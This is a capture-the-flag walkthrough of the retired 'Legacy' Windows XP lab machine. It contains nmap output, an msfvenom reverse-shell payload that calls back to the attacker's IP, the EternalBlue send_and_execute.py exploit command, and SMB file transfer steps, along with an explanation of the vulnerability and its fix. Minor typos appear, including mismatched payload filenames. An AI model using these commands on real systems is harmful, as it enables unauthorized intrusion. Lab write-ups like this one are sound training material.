



# Enumeration:
Started with an nmap scan to enumerate the box:
```bash
# Nmap 7.92 scan initiated Thu Jul  7 18:51:17 2022 as: nmap -sS -sV -A -p- -oN nmap.txt 10.10.10.4
Nmap scan report for 10.10.10.4
Host is up (0.074s latency).
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=7/7%OT=135%CT=1%CU=40757%PV=Y%DS=2%DC=T%G=Y%TM=62C763A
OS:5%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10D%TI=I%CI=I%II=I%SS=S%TS=
OS:0)OPS(O1=M539NW0NNT00NNS%O2=M539NW0NNT00NNS%O3=M539NW0NNT00%O4=M539NW0NN
OS:T00NNS%O5=M539NW0NNT00NNS%O6=M539NNT00NNS)WIN(W1=FAF0%W2=FAF0%W3=FAF0%W4
OS:=FAF0%W5=FAF0%W6=FAF0)ECN(R=Y%DF=Y%T=80%W=FAF0%O=M539NW0NNS%CC=N%Q=)T1(R
OS:=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=N%T=80%W=0%S=Z%A=S%F=AR%O=%
OS:RD=0%Q=)T3(R=Y%DF=Y%T=80%W=FAF0%S=O%A=S+%F=AS%O=M539NW0NNT00NNS%RD=0%Q=)
OS:T4(R=Y%DF=N%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=N%T=80%W=0%S=Z%A=S
OS:+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=N%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=
OS:N%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=B0%UN=0%RIPL=G%
OS:RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=S%T=80%CD=Z)

Network Distance: 2 hops
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 5d00h27m39s, deviation: 2h07m16s, median: 4d22h57m39s
|_smb2-time: Protocol negotiation failed (SMB2)
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:60:72 (VMware)
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2022-07-13T03:49:51+03:00

TRACEROUTE (using port 256/tcp)
HOP RTT      ADDRESS
1   73.78 ms 10.10.14.1
2   73.83 ms 10.10.10.4

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jul  7 18:52:21 2022 -- 1 IP address (1 host up) scanned in 64.24 seconds
```
**Smb vulnerabilities scan:** [nmap -sS -p139,445 10.10.10.4 -v --script vuln]:



**Initial Shell Vulnerability Exploited: EternalBlue**\
With the results of the nmap vulnerabilities scan, it seems like the machine is vulnerable to [MS017-10](https://raw.githubusercontent.com/helviojunior/MS17-010/master/send_and_execute.py) (EternalBlue Exploit).

I first used msfvenom to generate a payload:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443
EXITFUNC=thread -f exe -a x86 --platform windows -o reverseshell.exe
```
And then ran the exploit:
```bash
python send_and_execute.py 10.10.10.4 revshell.exe
```

**Vulnerability Explanation:**\
The EternalBlue exploit works by taking advantage of SMBv1 vulnerabilities present in older versions of
Microsoft operating systems.\
The exploit makes use of the way Microsoft Windows handles, or rather mishandles, specially crafted
packets from malicious attackers. All the attacker needs to do is send a maliciously-crafted packet to the
target server, and the malware propagates and a cyberattack ensues.\
**Vulnerability Fix:**\
Microsoft has released a set of patches for Windows Vista, 2008, 7, 2008 R2, 2012, 8.1, RT 8.1, 2012 R2,
10, and 2016. Microsoft has also released emergency patches for Windows operating systems that are no
longer supported, including Windows XP, 2003, and 8.\
In this scenario, the machine uses Windows XP, and for unsupported Windows operating systems, e.g.
Windows XP, Microsoft recommends that users discontinue the use of SMBv1.

**Initial Shell Screenshot:**\
 </br> 

<!--Privilege Escalation:-->

# Privilege Escalation:
After getting access to the machine, I could not run the 'whoami' command, I tried using 'echo &username%' instead, but it didn't work.\
To solve it, I transferred the 'whoami' command from my Kali Linux to the target machine.\
the 'whoami.exe' binary in Kali is located in this directory: /usr/share/windows-resources/binaries/
\
In order to transfer this binary, I created a smb share:
```bash
smbserver.py a /usr/share/windows-resources/binaries/ 
```
And downloaded the file in the target machine:
```bash
copy '\\\10.10.14.39\a\whoami.exe'
```
Ran the binary, as saw that I have NT AUTHORITY/SYSTEM privileges.\
Proof Screenshot here: </br>
